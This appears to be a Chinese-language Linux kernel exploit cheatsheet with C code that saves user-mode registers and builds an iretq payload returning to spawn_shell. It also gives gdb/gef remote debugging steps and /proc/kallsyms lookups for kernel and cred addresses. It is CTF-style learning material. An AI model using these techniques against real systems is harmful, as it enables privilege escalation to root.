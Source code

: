 ```yaml
---
title: kernel exp cheatsheet
---
```


## EXP 编写

### 保存状态

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

// -masm=intel
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

// 设置 iretq 参数
payload[++i] = (unsigned long)spawn_shell; // userland rip
payload[++i] = user_cs;
payload[++i] = user_rflags;
payload[++i] = user_sp;
payload[++i] = user_ss;
```



## gdb 技巧

### gdbscript

```bash title="gdbscript"
init-gef
gef-remote localhost 1234
pi reset_architecture("X86")
# add-symbol-file fs/vuln.ko addr
```

### 获取基址

```bash title="qemu-terminal"
lsmod  # 获取 module 基址
grep "_text" | cat /proc/kallsyms  # 获取 kernel 基址
grep "cred" | cat /proc/kallsyms  # 获取 kernel 特定函数地址
```



### gadget 技巧

带符号表解压工具：[marin-m/vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)

vmlinux base: 0xffffffff81000000
